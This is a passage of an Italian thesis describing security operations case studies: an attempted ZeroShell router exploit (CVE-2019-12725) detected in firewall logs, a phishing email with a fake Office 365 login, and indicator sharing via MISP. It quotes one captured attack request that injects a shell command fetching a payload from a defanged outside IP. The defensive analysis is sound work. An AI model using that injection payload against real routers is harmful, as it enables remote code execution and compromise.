        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/otxIP.PNG}
    \end{center}
    \caption{Analisi IP 138[.]91[.]224[.]48 con OTX}
    \label{fig:Analisi IP1 con OTX}
\end{figure} 

L’attaccante tenta di sfruttare la vulnerabilità di tipo "remote code execution" non autenticato su router ZeroShell Linux (CVE-2019-12725), tramite la seguente chiamata GET in http: 

\begin{center}
    \textit{**IP pubblico **:/cgi-bin/kerbynet?Section=NoAuthREQ\&Action=x509List\&type=*";cd /tmp;curl -O http://5[.]206[.]227[.]228/zero zero;"}
\end{center}
 
 Esaminando la richiesa HTTP malevola osserviamo che e’ presente una CURL verso l’IP 5[.]206[.]227[.]228:
 
  \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/taloIp2.png}
    \end{center}
    \caption{Analisi IP 5[.]206[.]227[.]228 con Cisco Talos Intelligence}
    \label{fig:Analisi IP2 con Talos}
\end{figure} 
 
 \newpage
 
 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/otxIp2.PNG}
    \end{center}
    \caption{Analisi IP 5[.]206[.]227[.]2288 con OTX}
    \label{fig:Analisi IP2 con OTX}
\end{figure} 

Anche il secondo IP 5[.]206[.]227[.]228,presente nella CURL, possiede una reputazione “poor” e ad esso sono associati 15 pulse OTX.

Identificata la minaccia sono stati analizzati i log del firewall da Graylog.\par
I log ci mostrano che la GET malevola è stata effettuata correttamente:

 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/graylogZero.png}
    \end{center}
    \caption{Analisi log del Cisco ASA con Graylog}
    \label{fig:Analisi log del Cisco ASA con Graylog}
\end{figure} 

Eseguendo una query per l’IP 5[.]206[.]227[.]228 non ritorna nessun log.
Abbiamo inoltrato l’analisi al team IT di competenza che ci hanno confermato che tutte le richieste presentate sulla porta 80, il server ha risposto con un redirect verso la 443, prevenendo l’esecuzione del codice malevolo. Inoltre il client malevolo non ha ripresentato la richiesta in https.\par

Grazie alla collaborazione di tutti gli strumenti e alle informazioni di intelligence siamo stati in grado di identificare e profilare la minaccia permettendoci di gestire prontamente il tentativo di attacco  

\subsection{Tentativo di phishing e condivisione analisi su MISP}

Il vettore e-mail continua ad essere uno dei più utilizzati dai criminal hacker per diffondere malware di ogni genere, soprattutto durante il lockdown.\par
Ormai esistono moltissime tecniche che permettono di eludere i sistemi di mail filtering, fortunatamente la WayneCorp. possiede degli utenti con una buona cultura sulla sicurezza informatica, che rappresenta un punto di forza per i team di sicurezza.\par
Per l’appunto siamo stati allertati da un utente che ci ha richiesto di analizzare una mail sospetta che ha ricevuto in Inbox.

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.85\columnwidth]{images/4_caso_d'uso_img/phishing.png}
    \end{center}
    \caption{Mail ricevuta all'utente}
    \label{fig:Mail ricevuta all'utente}
\end{figure} 

Analizzando l’header della mail i protocolli di certificazione SPF, DKIM e DMARC venivano correttamente superati e il messagio veniva categorizzato come “NO SPAM” (NSPM - spam score 1):

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.85\columnwidth]{images/4_caso_d'uso_img/header.png}
    \end{center}
    \caption{Analisi header mail della figura 4.25}
    \label{fig:Analisi header mail della figura 4.25}
\end{figure} 

\newpage

Il messaggio viene inviato dall’IP 40[.]107[.]76[.]42 appartenente a Microsoft.
L’IP possiede una buona reputazione e non è presente in nessuna blacklist.

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/talosip3.png}
    \end{center}
    \caption{Analisi IP 40[.]107[.]76[.]42 con Cisco Talos Intelligence}
    \label{fig:Analisi IP 40[.]107[.]76[.]42 con Cisco Talos Intelligence}
\end{figure} 

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/domainVS.png}
    \end{center}
    \caption{Analisi sender domain con VirusTotal}
    \label{fig:Analisi sender domain con VirusTotal}
\end{figure} 

Da come mostra il grafo generato da VirusTotal, il dominio del sender non comunica direttamente con file malevoli.

\newpage

La mail possedeva un allegato in formato “.htm” che abbiamo aperto e analizzato in sandbox:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/attacched.png}
    \end{center}
    \caption{Pagina "fake login" nell'allegato .htm}
    \label{fig:Pagina "fake login" nell'allegato .htm}
\end{figure} 

Il file .htm apriva una “fake login” di Office 365, nella quale si presentava il classico form di login.
Analizzando le rechieste eseguite dall’allegato, possiamo osservare che il form inviava i dati al dominio how-to-beauty[.]com: 

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/sandbox.jpg}
    \end{center}
    \caption{Analisi allegato .htm in sandbox AnyRun}
    \label{fig:Analisi allegato .htm in sandbox AnyRun}
\end{figure} 

\newpage

Abbiamo analizzato il dominio anche con Cisco Talos Intelligence, confermandoci che si tratta di un dominio malevolo conosciuto:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/talosdomain3.png}
    \end{center}
    \caption{Analisi how-to-beauty[.]com con Cisco Talos Intelligence}
    \label{fig:Analisi how-to-beauty[.]com con Cisco Talos Intelligence}
\end{figure} 

Dalle analisi abbiamo potuto concludere che si è trattato di un tentativo di phishing con lo scopo di estorcere le credenziali dell’utenza di Office 365 tramite ingegneria sociale. Inoltre si può osservare che la mail è stata inviata da un indirizzo di un dominio lecito ma compromesso, per questo motivo il messaggio è riuscito a superare i protocolli di certificazione e raggiungere il destinatario target.\par

Completata l’analisi abbiamo provveduto a fornire il report al client ed a genereare l’evento MISP nell’istanza privata per condividerla con le istanza pubblice CIRCL e COVID, con cui collaboriamo:

\begin{figure}[h]
    \begin{center}
        \includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/mispShare1.png}
    \end{center}
    \caption{Evento condiviso su MISP relativo alla mail di phishing}
    \label{fig:Evento condiviso relativo alla mail di phishing}
\end{figure} 

\newpage

Particolarmente durante il lockdown abbiamo condiviso diverse analisi mail e IoC legate al COVID: 

\begin{figure}[h]
    \begin{center}
        \includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/mispShare2.png}
    \end{center}
    \caption{Evento condiviso su MISP relativo a una campagna di spear phishing durante il lockdown}
    \label{fig:Evento condiviso su MISP relativo a una campagna di spear phishing durante il lockdown}
\end{figure} 

In questo modo abbiamo contribuito alla battaglia contro il COVID anche sul piano cybersecurity, condividendo con altre organizzazioni (utilizzando un TLP: white) le analisi effettuate, al fine di ridurre i tempi di rimedio e addestrare gli strumenti di sicurezza a prevenire e bloccare le minacce in modo proattivo.

\chapter{Conclusioni}
\label{chap:Conclusioni}

L'integrazione del SIEM con una buona componente di intelligence contestualizzata, come dimostrato nel capitolo 4, ha portato un miglioramento nella capacità di rilevamento delle intrusioni, tramite un approccio proattivo. Inoltre ha ottimizzato i tempi di analisi e mitigazione delle minacce.\par
La soluzione adottata per la WayneCorp, grazie alla sua natura opensource, mi ha permesso di apprendere le logiche del modello e le strategie utilizzate per identificare e analizzare le attività ostili.\par
Mentre dal lavoro svolto con MISP, ho apprezzato molto il concetto di condivisione delle informazioni tra community,
combattendo collettivamente contro attori che utilizzano internet per eseguire attività malevole, molto spesso senza etica. 
Un'esempio è stato proprio lo sfruttamento dei disagi causati dalla pandemia come vettore d'attacco.\par
Questa esperienza per me è stata un punto di partenza nell'ambito della cybersecurity, confermando a pieno il mio interesse sull'argomento, su cui formerò la mia figura professionale.

% INCLUSIONE APPENDICI - - PERSONALIZZARE - TENERE COERENTE CON LISTA IN ALTO


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% BIBLIOGRAFIA
\phantomsection
\addcontentsline{toc}{chapter}{\refname}
\nocite{*}
\printbibliography
\end{document}
